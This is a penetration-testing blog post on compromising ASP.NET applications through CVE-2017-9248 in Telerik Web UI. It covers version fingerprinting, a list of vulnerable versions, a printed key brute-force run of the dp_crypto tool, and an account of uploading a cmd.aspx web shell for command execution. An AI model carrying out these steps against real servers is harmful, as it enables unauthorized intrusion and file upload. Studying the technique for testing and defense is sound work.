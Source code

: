 ```yaml
---
layout: post
title:  "Pwning Web Applications via Telerik Web UI"
date:   2018-08-03
categories: pentest
---
```


## Introduction 

Over the past months, I’ve encountered a number of web applications that were using Telerik Web UI components for their application’s interface. There’s nothing wrong with using third party components to make your application’s interface the way you want it. However, a vulnerability in these components could cause you harm. 


In this post, I’m going to show you how I pwned several web applications, specifically ASP.NET ones, by abusing an outdated version of Telerik Web UI.  

## Identification

The simplest way to check if the application is using Telerik Web UI is to view its HTML source code. 
![Source1](/static/img/2018-08-03-pwning-with-telerik/01.png)
> _**TIP #1:** There are times where you’ll not find exactly the string **Telerik.Web.UI** from the HTML code. However, if you find the string **Telerik**, just keep on browsing the other pages of the application and search for the string **Telerik.Web.UI** again._


If you’ve identified that the application is using Telerik Web UI, the next step is to identify its version and check if it’s vulnerable to [**CVE-2017-9248**](https://www.telerik.com/support/kb/aspnet-ajax/details/cryptographic-weakness).  


Finding the version can either be easy or tricky. To get the exact version, just view the HTML code. In the case below, the version information sits right next to the string **Telerik.Web.UI**. That’s easy.
![Source2](/static/img/2018-08-03-pwning-with-telerik/02.png)

However, there are cases where the version is not located right next to the string “**Telerik.Web.UI**”. Another way to identify the version of Telerik Web UI is by going through the HTML comments just like here. 
![Source3](/static/img/2018-08-03-pwning-with-telerik/03.png)

Once you have the version information, cross-reference it with the list of vulnerable versions. Based on the [exploitation tool](https://github.com/bao7uo/dp_crypto) written by Paul Taylor ([@bao7uo](https://twitter.com/bao7uo)), the following versions are affected:
```
2007.1423        2008.31314       2010.31317        2013.1.403        2015.2.729
2007.1521        2009.1311        2011.1315         2013.1.417        2015.2.826
2007.1626        2009.1402        2011.1413         2013.2.611        2015.3.930
2007.2918        2009.1527        2011.1519         2013.2.717        2015.3.1111
2007.2101        2009.2701        2011.2712         2013.3.1015       2016.1.113
2007.21107       2009.2826        2011.2915         2013.3.1114       2016.1.225
2007.31218       2009.31103       2011.31115        2013.3.1324       2016.2.504
2007.31314       2009.31208       2011.3.1305       2014.1.225        2016.2.607
2007.31425       2009.31314       2012.1.215        2014.1.403        2016.3.914
2008.1415        2010.1309        2012.1.411        2014.2.618        2016.3.1018
2008.1515        2010.1415        2012.2.607        2014.2.724        2016.3.1027
2008.1619        2010.1519        2012.2.724        2014.3.1024       2017.1.118
2008.2723        2010.2713        2012.2.912        2015.1.204        2017.1.228
2008.2826        2010.2826        2012.3.1016       2015.1.225        2017.2.503
2008.21001       2010.2929        2012.3.1205       2015.1.401        2017.2.621
2008.31105       2010.31109       2012.3.1308       2015.2.604        2017.2.711
2008.31125       2010.31215       2013.1.220        2015.2.623        2017.3.913
```

## Exploitation

Before jumping to the exploitation, we have to locate first the "Dialog Handler" **Telerik.Web.UI.DialogHandler.aspx**. Most of the time, it’s located at the root directory of the application. If it’s not there, try the sub-directories. To verify if you’ve found the right location, you should see the string "**Loading the dialog…**" when accessing the dialog handler.
![Loading](/static/img/2018-08-03-pwning-with-telerik/04.png)
> _**TIP #2:** Sometimes, the sub-directory where the dialog handler is located (or where Telerik Web UI is located in general) can be found from the HTML source code._

For the exploitation, use the tool written by Paul Taylor which can be downloaded [here](https://github.com/bao7uo/dp_crypto). Credits and big thanks to him for writing this one. 


Here’s an example of the tool running to bruteforce the key and discover the hidden link to access the **Document Manager** page.
```console
root@kali:~# python dp_crypto.py -k http://www.example.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9

dp_crypto by Paul Taylor / Foregenix Ltd
CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://www.example.com/Telerik.Web.UI.DialogHandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {D} found with 31 requests, total so far: 31
Key position 02: {3} found with 10 requests, total so far: 41
Key position 03: {A} found with 35 requests, total so far: 76
Key position 04: {D} found with 46 requests, total so far: 122
<------------------------ SNIPPED ------------------------>
Key position 45: {B} found with 50 requests, total so far: 1638
Key position 46: {3} found with 36 requests, total so far: 1674
Key position 47: {3} found with 50 requests, total so far: 1724
Key position 48: {F} found with 57 requests, total so far: 1781
Found key: D3AD[redacted]B33F
Total web requests: 1781
2014.3.1024: http://www.example.com/Telerik.Web.UI.DialogHandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=[snipped&redacted]
```

By visiting the "**Document Manager**" link, we see that we now have access to all the files and folders of the web server. More importantly, we see that we can upload arbitrary files to the server.
![Document Manager](/static/img/2018-08-03-pwning-with-telerik/05.png)

Here’s an example of the shell **cmd.aspx** file that I uploaded. 
![Shell](/static/img/2018-08-03-pwning-with-telerik/06.png)

And here’s an example of a command execution using the uploaded shell.
![Shell Upload](/static/img/2018-08-03-pwning-with-telerik/07.png)

## Telewreck

As part of my learning process, I decided to create a Burp Suite extension that can detect and exploit vulnerable instances of Telerik Web UI. I named it **Telewreck** and is available at [https://github.com/capt-meelo/Telewreck](https://github.com/capt-meelo/Telewreck). 

When running a passive scan, this extension will look for vulnerable versions of Telerik Web UI.
![Passive](/static/img/2018-08-03-pwning-with-telerik/08.png)

A tab where you can perform the exploitation part is also available.
![Tab](/static/img/2018-08-03-pwning-with-telerik/09.png)

That's it! 

Feel free to contribute in the development of the tool and report/fix some issues.
